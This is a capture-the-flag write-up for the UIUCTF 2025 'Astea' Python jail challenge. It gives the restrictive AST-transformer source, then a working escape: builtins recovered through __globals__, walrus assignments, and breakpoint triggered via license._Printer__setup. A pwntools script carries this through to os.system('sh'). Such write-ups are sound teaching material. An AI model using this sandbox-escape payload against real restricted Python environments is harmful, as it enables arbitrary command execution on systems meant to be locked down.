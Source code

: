 # UIUCTF 2025 Astea

```python
import ast

def safe_import():
  print("Why do you need imports to make tea?")

def safe_call():
  print("Why do you need function calls to make tea?")

class CoolDownTea(ast.NodeTransformer):
  def visit_Call(self, node: ast.Call) -> ast.AST:
    return ast.Call(func=ast.Name(id='safe_call', ctx=ast.Load()), args=[], keywords=[])
  
  def visit_Import(self, node: ast.AST) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_ImportFrom(self, node: ast.ImportFrom) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_Assign(self, node: ast.Assign) -> ast.AST:
    return ast.Assign(targets=node.targets, value=ast.Constant(value=0))
  
  def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
    return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))
  
code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

exec(compile(cup, '', 'exec'), {'__builtins__': {}}, {'safe_import': safe_import, 'safe_call': safe_call})
```

Requirements:

1. No function call: Use `f"{license}" for license._Printer__setup in [function_to_call]]` to call `function_to_call`
2. No builtins: Use `.__globals__["__builtins__"]` of the given function to access builtins
3. No assignment: Use `[a:=b]` for assignment

Inspired by [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/#running-functions-and-methods-without-parenthesis).

We want to call `breakpoint()`, so:

1. Get builtins from `safe_import`: `builtins = safe_import.__globals__["__builtins__"]`, to avoid assignment, use `[builtins:=safe_import.__globals__["__builtins__"]]`
2. Get license and breakpoint from builtins: `[...,breakpoint:=builtins.breakpoint,license:=builtins.license]`
3. Call breakpoint via `license._Printer__setup`: `[f"{license}" for license._Printer__setup in [breakpoint]]`

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "astea.py"])
p.recvuntil(b"morning:")
p.sendline(
    '[builtins:=safe_import.__globals__["__builtins__"],breakpoint:=builtins.breakpoint,license:=builtins.license,[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
)
p.recvuntil(b"(Pdb) ")
p.sendline(b"import os")
p.sendline(b"os.system('sh')")

p.interactive()
```

What is `license._Printer__setup`?

```python
>>> type(license)
<class '_sitebuiltins._Printer'>
>>> license._Printer__setup
<bound method _Printer.__setup of Type license() to see the full license text>
```

It corresponds to `_setup(self)` function of `class _Printer` in [_sitebuiltins.py](https://github.com/python/cpython/blob/811acc85d5b001e0bef6ac2e6b499e7c4f149262/Lib/_sitebuiltins.py#L44). It is called when we convert `license` to `str`:

```python
def __repr__(self):
    self.__setup() # <- calls license._Printer__setup
    if len(self.__lines) <= self.MAXLINES:
        return "\n".join(self.__lines)
    else:
        return "Type %s() to see the full %s text" % ((self.__name,)*2)
```
